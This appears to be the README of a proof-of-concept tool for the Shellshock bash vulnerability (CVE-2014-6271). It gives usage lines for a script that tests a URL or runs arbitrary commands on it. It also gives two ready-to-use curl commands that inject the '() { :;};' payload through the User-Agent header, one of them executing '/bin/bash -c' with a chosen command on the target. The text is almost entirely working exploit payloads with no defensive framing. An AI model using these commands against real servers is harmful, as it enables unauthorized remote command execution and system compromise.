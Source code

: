CVE 2014-6271 PoC Tool
==========
Usage:

    shellshock.py -u <url> test
    shellshock.py -u <url> exec -c <command>
    shellshock.py -u <url> get

Manual commands:

    curl -i -X HEAD "<url>" -A '() { :;}; echo "Warning: Server Vulnerable"'
    curl -A '() { :;}; /bin/bash -c "<cmd>"' <url>